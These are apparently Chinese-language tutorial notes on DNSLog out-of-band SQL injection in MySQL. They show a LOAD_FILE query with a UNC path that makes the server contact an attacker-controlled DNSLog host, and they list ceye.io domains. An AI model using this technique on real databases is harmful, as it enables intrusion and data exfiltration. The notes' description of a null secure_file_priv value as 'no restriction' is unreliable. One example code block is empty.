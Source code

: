 

```
#可以在前面拼接字符串
lkb.yzdyla.ceye.io
yzdyla.ceye.io
```

![image-20220507214723123](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182210306-210864835.png)

![image-20220507214035937](photo/image-20220507214035937.png)

### UNC(windows)

**U**niversal **N**aming **C**onvention 通用命名规则

一种访问资源的一种地址的格式

描述网络资源上的资源格式

#### MySQL读写函数

secure_file_priv

| 配置值     | 描述                           |
| ---------- | ------------------------------ |
| 指定文件夹 | 导入导出只能发生在指定的文件夹 |
| 不设置     | 不允许执行                     |
| null       | 没有任何限制                   |

#### MySQL读写函数

select LOAD_FILE('E:\\in.txt'); 

1、只能访问本机的文件 

2、文件需要有读取权限 

3、字节数小于max_allowed_packet 

**否则返回NULL** 

```mysql
#把123写进到out文本文件里面去，如果不存在创建一个


```



#### DNSLog注入流程

1、把select LOAD_FILE()注入到数据库，访问文 件 

2、UNC构建DNS服务器地址，假装访问文件， 产生DNSLog 

```mysql
select load_file('////aaa.yourid.dnslog.cn/wuya'); 
```
